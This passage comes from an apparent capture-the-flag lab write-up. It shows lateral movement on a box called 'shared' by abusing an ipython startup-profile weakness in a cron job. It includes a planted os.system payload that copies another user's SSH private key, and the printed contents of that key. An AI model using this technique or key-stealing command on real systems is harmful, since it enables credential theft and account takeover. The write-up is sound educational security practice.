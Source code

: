 So we probably have to move to dan_smith!

We try to get pspy on the machine: 

```bash
──(arcee㉿soundwave)-[~/Documents/Tools]
└─$ python3 -m  http.server 4444

james_mason@shared:~$ wget http://10.10.14.3:4444/pspy64
```

When running pspy we see that UID 1001 executes some ipython things: 

```bash
2022/09/26 08:55:01 CMD: UID=1001 PID=1574   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython                                                                                                     
2022/09/26 08:55:01 CMD: UID=1001 PID=1575   | /usr/bin/pkill ipython 
2022/09/26 08:55:01 CMD: UID=0    PID=1576   | /usr/sbin/CRON -f 
2022/09/26 08:55:01 CMD: UID=1001 PID=1577   | /bin/sh -c /usr/bin/pkill ipython; cd /opt/scripts_review/ && /usr/local/bin/ipython
```

We google for vulnerabilities in ipython and we get: [https://github-com.translate.goog/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=nl&_x_tr_pto=wapp](https://github-com.translate.goog/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=nl&_x_tr_pto=wapp)

We try to replicate:

```bash
james_mason@shared:~$ mkdir -m 777 /opt/scripts_review/profile_default/
james_mason@shared:~$ mkdir -m 777 /opt/scripts_review/profile_default/startup
james_mason@shared:~$ echo "import os;os.system('cat ~/.ssh/id_rsa > ~/dan_smith.key')" > /opt/scripts_review/profile_default/startup/poc.py
james_mason@shared:~$ cd /home/dan_smith
james_mason@shared:/home/dan_smith$ ls
user.txt
james_mason@shared:/home/dan_smith$ ls
dan_smith.key  user.txt
james_mason@shared:/home/dan_smith$ cat dan_smith.key
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvWFkzEQw9usImnZ7ZAzefm34r+54C9vbjymNl4pwxNJPaNSHbdWO
+/+OPh0/KiPg70GdaFWhgm8qEfFXLEXUbnSMkiB7JbC3fCfDCGUYmp9QiiQC0xiFeaSbvZ
FwA4NCZouzAW1W/ZXe60LaAXVAlEIbuGOVcNrVfh+XyXDFvEyre5BWNARQSarV5CGXk6ku
sjib5U7vdKXASeoPSHmWzFismokfYy8Oyupd8y1WXA4jczt9qKUgBetVUDiai1ckFBePWl
4G3yqQ2ghuHhDPBC+lCl3mMf1XJ7Jgm3sa+EuRPZFDCUiTCSxA8LsuYrWAwCtxJga31zWx
FHAVThRwfKb4Qh2l9rXGtK6G05+DXWj+OAe/Q34gCMgFG4h3mPw7tRz2plTRBQfgLcrvVD
oQtePOEc/XuVff+kQH7PU9J1c0F/hC7gbklm2bA8YTNlnCQ2Z2Z+HSzeEXD5rXtCA69F4E
u1FCodLROALNPgrAM4LgMbD3xaW5BqZWrm24uP/lAAAFiPY2n2r2Np9qAAAAB3NzaC1yc2
EAAAGBAL1hZMxEMPbrCJp2e2QM3n5t+K/ueAvb248pjZeKcMTST2jUh23Vjvv/jj4dPyoj
4O9BnWhVoYJvKhHxVyxF1G50jJIgeyWwt3wnwwhlGJqfUIokAtMYhXmkm72RcAODQmaLsw
FtVv2V3utC2gF1QJRCG7hjlXDa1X4fl8lwxbxMq3uQVjQEUEmq1eQhl5OpLrI4m+VO73Sl
wEnqD0h5lsxYrJqJH2MvDsrqXfMtVlwOI3M7failIAXrVVA4motXJBQXj1peBt8qkNoIbh
4QzwQvpQpd5jH9VyeyYJt7GvhLkT2RQwlIkwksQPC7LmK1gMArcSYGt9c1sRRwFU4UcHym
+EIdpfa1xrSuhtOfg11o/jgHv0N+IAjIBRuId5j8O7Uc9qZU0QUH4C3K71Q6ELXjzhHP17
lX3/pEB+z1PSdXNBf4Qu4G5JZtmwPGEzZZwkNmdmfh0s3hFw+a17QgOvReBLtRQqHS0TgC
zT4KwDOC4DGw98WluQamVq5tuLj/5QAAAAMBAAEAAAGBAK05auPU9BzHO6Vd/tuzUci/ep
wiOrhOMHSxA4y72w6NeIlg7Uev8gva5Bc41VAMZXEzyXFn8kXGvOqQoLYkYX1vKi13fG0r
SYpNLH5/SpQUaa0R52uDoIN15+bsI1NzOsdlvSTvCIUIE1GKYrK2t41lMsnkfQsvf9zPtR
1TA+uLDcgGbHNEBtR7aQ41E9rDA62NTjvfifResJZre/NFFIRyD9+C0az9nEBLRAhtTfMC
E7cRkY0zDSmc6vpn7CTMXOQvdLao1WP2k/dSpwiIOWpSLIbpPHEKBEFDbKMeJ2G9uvxXtJ
f3uQ14rvy+tRTog/B3/PgziSb6wvHri6ijt6N9PQnKURVlZbkx3yr397oVMCiTe2FA+I/Y
pPtQxpmHjyClPWUsN45PwWF+D0ofLJishFH7ylAsOeDHsUVmhgOeRyywkDWFWMdz+Ke+XQ
YWfa9RiI5aTaWdOrytt2l3Djd1V1/c62M1ekUoUrIuc5PS8JNlZQl7fyfMSZC9mL+iOQAA
AMEAy6SuHvYofbEAD3MS4VxQ+uo7G4sU3JjAkyscViaAdEeLejvnn9i24sLWv9oE9/UOgm
2AwUg3cT7kmKUdAvBHsj20uwv8a1ezFQNN5vxTnQPQLTiZoUIR7FDTOkQ0W3hfvjznKXTM
```